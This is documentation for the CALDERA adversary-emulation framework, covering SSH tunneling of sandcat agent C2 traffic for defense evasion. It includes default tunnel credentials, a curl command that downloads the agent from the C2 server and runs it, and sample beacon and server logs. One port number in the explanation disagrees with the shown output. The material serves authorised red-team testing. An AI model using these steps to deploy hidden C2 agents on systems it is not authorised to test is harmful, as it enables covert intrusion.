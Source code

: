 # C2 Communications Tunneling
In addition to built-in contact methods such as HTTP, DNS, TCP, and UDP, CALDERA also provides support for tunneling C2 traffic, which supporting agents can use to mask built-in contact methods for added defense evasion.
Currently, the only available tunneling method is SSH tunneling, which is only supported by the sandcat agent.

## SSH Tunneling
Sandcat agents can use SSH tunneling to tunnel C2 contact mechanisms, namely HTTP(S). CALDERA also provides built-in support to spin up a minimal local SSH server for SSH tunneling.

### Usage - Serverside
Within the CALDERA configuration file, adjust the following entries according to your environment:
- `app.contact.tunnel.ssh.host_key_file`: File name for the server's SSH private host key. You can generate your own SSH private host key for the CALDERA server. The file must reside in the `conf/ssh_keys` directory. If the CALDERA server cannot find or read the provided private host key, it will generate a temporary RSA host key to use for operations. Although this would cause security warnings under normal circumstances, the sandcat agent implementation of SSH tunneling does not attempt to verify hosts, and thus should not be affected by changing or temporary host keys.
- `app.contact.tunnel.ssh.host_key_passphrase`: Passphrase for the server's SSH private host key. The server will use this passphrase to read the private host key file provided in `app.contact.tunnel.ssh.host_key_file`.
- `app.contact.tunnel.ssh.socket`: Indicates the IP address and port that the CALDERA server will listen on for SSH tunneling connections (e.g. `0.0.0.0:8022`).
- `app.contact.tunnel.ssh.user_name`: User name that agents will use to authenticate to the CALDERA server via SSH. The default value is `sandcat`.
- `app.contact.tunnel.ssh.user_password`: Password that agents will use to authenticate to the CALDERA server via SSH. The default value is `s4ndc4t!`.

Once the configuration entries are set, simply start the CALDERA server up as normal via the `server.py` Python program, and CALDERA will automatically attempt to start an SSH server that listens on the specified socket (`app.contact.tunnel.ssh.socket`). 

The contact will first attempt to read in the host private key file specified by `app.contact.tunnel.ssh.host_key_file`, using the passphrase specified by `app.contact.tunnel.ssh.host_key_passphrase`. If it cannot read the file for whatever reason (e.g. file does not exist, or the passphrase is incorrect), then the server will generate its own temporary private key to use for the server. 

The SSH server should only be used between agents and the C2 server and should not be used to SSH into the CALDERA server manually (e.g. to manage the server remotely).

### Usage - Agent
The sandcat agent is currently the only agent that supports SSH tunneling. To use it, the `server`, `tunnelProtocol`, `tunnelAddr`, `tunnelUser`, and `tunnelPassword` arguments must be used. 
- `server` value is the CALDERA server endpoint that the tunnel will connect to - if the agent is tunneling HTTP communications through SSH, then `server` should be the HTTP socket for the CALDERA C2 server (e.g. `http://10.10.10.15:8888`). 
- `tunnelProtocol` value is the name of the tunneling mechanism that the agent is using. For SSH, the value must be `SSH`. 
- `tunnelAddr` is the port number or IP:port combination that indicates which port or socket to connect to via SSH to start the tunnel (e.g. `8022` or `10.10.10.15:8022`). If only a port number is provided, the agent will try to connect to the IP address from `server` using the specified port. The server listening on the port/socket should be listening for SSH connections from agents.
- `tunnelUser` indicates which username to use to authenticate to `tunnelAddr` via SSH. This username should match the CALDERA configuration value for `app.contact.tunnel.ssh.user_name`.
- `tunnelPassword` indicates which password to use to authenticate to
`tunnelAddr` via SSH. This password should match the CALDERA configuration value for `app.contact.tunnel.ssh.user_password`.

To tunnel different contacts through SSH tunneling, simply adjust the `c2` and `server` values as needed.

When authenticating to the provided SSH server, the sandcat agent will use the username/password provided by the `tunnelUser` and `tunnelPassword` arguments. Whatever credentials the agent uses must reflect the CALDERA configuration values specified in `app.contact.tunnel.ssh.user_name` and `app.contact.tunnel.ssh.user_password`. The agent will then open a random local port to act as the local endpoint of the SSH tunnel. This local endpoint becomes the `upstream_dest` value for the agent.

The following commandline will start a sandcat agent that will open up an SSH tunnel to the CALDERA c2 server at `192.168.140.1:8022`, and the tunneled communications will be sent to the c2 server's HTTP endpoint at `192.168.140.1:8888`:
```sh
server="http://192.168.140.1:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;
chmod +x sandcat.go;
./sandcat.go -server $server -v -tunnelProtocol SSH -tunnelAddr 8022 -tunnelUser sandcat -tunnelPassword s4ndc4t!
```

The above Linux agent will produce verbose output similar to the following:
```
SStarting sandcat in verbose mode.
[*] Starting SSH tunnel
Starting local tunnel endpoint at localhost:52649
Setting server tunnel endpoint at 192.168.140.1:8022
Setting remote endpoint at localhost:8888
[*] Listening on local SSH tunnel endpoint
[*] SSH tunnel ready and listening on http://localhost:52649.
[*] Attempting to set channel HTTP
Beacon API=/beacon
[*] Set communication channel to HTTP
initial delay=0
server=http://192.168.140.1:8888
upstream dest addr=http://localhost:52649
group=red
privilege=User
allow local p2p receivers=false
beacon channel=HTTP
Local tunnel endpoint=http://localhost:52649
[*] Accepted connection on local SSH tunnel endpoint
[*] Listening on local SSH tunnel endpoint
[*] Forwarding connection to server
[*] Opened remote connection through tunnel
[+] Beacon (HTTP): ALIVE
```

The agent connected to the C2 server via SSH at `192.168.140.1:8022` and opened a local SSH tunnel on local port 52649 that tunnels HTTP traffic to the C2 server at `192.168.140.1:8888`. This is the equivalent of running `ssh -L 52649:localhost:8888 sandcat@192.168.140.1 -p 8022 -N`.

Note that the agent's upstream destination endpoint is set to the local SSH tunnel endpoint at `http://localhost:54351` (the protocol is set to `http` since the agent is tunneling HTTP comms), while the true server value is the final tunnel destination at `http://192.168.140.1:8888`.

If running the CALDERA c2 server with logging verbosity set to `DEBUG`, you may see output similar to the following when an agent connects via SSH tunneling:
```
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Accepted SSH connection on 192.168.140.1, port 8022
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Client address: 192.168.140.100, port 43796
2021-03-26 09:12:43 - DEBUG (contact_ssh.py:52 connection_made) SSH connection received from 192.168.140.100.
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Requesting key exchange
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Received key exchange request
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Beginning key exchange
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Completed key exchange
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Beginning auth for user sandcat
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Trying password auth
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Auth for user sandcat succeeded
2021-03-26 09:12:43 - DEBUG (contact_ssh.py:48 connection_requested) Connection request from 0.0.0.0:0d to localhost:8888
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2, chan=0] Set write buffer limits: low-water=16384, high-water=65536
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Accepted direct TCP connection request to localhost, port 8888
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Client address: 0.0.0.0
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Forwarding TCP connection to localhost, port 8888
2021-03-26 09:12:43 - DEBUG (contact_svc.py:64 handle_heartbeat) First time HTTP beacon from kliuok
```

Once the tunnel is established, operators can proceed as normal with agent activity and operations.